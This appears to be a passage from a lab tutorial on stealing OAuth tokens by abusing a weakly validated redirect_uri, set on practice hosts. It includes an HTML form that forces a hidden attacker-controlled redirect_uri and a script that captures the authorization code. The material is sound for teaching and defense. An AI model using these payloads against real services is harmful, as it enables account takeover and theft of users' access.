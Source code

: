 # Exploiting OAuth

## Stealing OAuth Tokens

Tokens play a big part in the OAuth 2.0 framework, acting as ‘keys’ that grant access to protected resources. These tokens are issued by the authorisation server and redirected to the client application based on the `redirect_uri` parameter. This redirection is crucial in the OAuth flow, ensuring that tokens are securely transmitted ot the inteded recipient. **However, if the `redirect_uri` parameter is not well protected, attackers can exploit it to hijack tokens.**

### The Role of The URI Redirect Parameter

If an attacker gains control over any domain or URI listed in the `redirect_uri`, they can manipulate the flow to intercept tokens. Here’s how this can be exploited.

1. Consider an OAuth application where the registered redirect URIs are:
    1. `http://bistro.thm:8000/oauthdemo/callback`
    2. `http://dev.bistro.thm:8002/malicious_redirect.html`
2. If an attacker gains control over `dev.bistro.thm`, they can exploit the OAuth flow. By setting the `redirect_uri` to `http://dev.bistro.thm/callback`, the authorisation server will send the token to this controlled domain.
3. The attacker can then capture the token and use it for subsequent requests.

### Walkthrough from an Attacker’s Perspective

For this walkthrough, assume the attacker has comrpomised the domain `dev.bistro.thm:8002` and can host any HTML page on the server. Also consider Tom, a victim to whom we will send a link. The attacker can creaft a simple HTML page (`redirect_uri.html`) with the following:

```html
<form action="http://coffee.thm:8000/oauthdemo/oauth_login/" method="get">
  <input type="hidden" name="redirect_uri" value="http://dev.bistro.thm:8002/malicious_redirect.html">
  <input type="submit" value="Hijack OAuth">
</form>
```

The form sends a **hidden** `redirect_uri` parameter with the value of a HTML page being hosted on the compromise domain (`dev.bistro.thm:8002`). It submits this form to the authorisation server (`http://coffee.thm:8000/oauthdemo/oauth_login/`), which will use this `redirect_uri` parameter to send the generated access token to.

Assume the following `malicious_redirect.html` page on the compromised domain:

```html
<script>
  // Extract the authorization code from the URL
  const urlParams = new URLSearchParams(window.location.search);
  const code = urlParams.get('code');
  document.getElementById('auth_code').innerText = code;
  console.log("Intercepted Authorization Code:", code);
  // code to save the acquired code in database/file etc
</script>
```
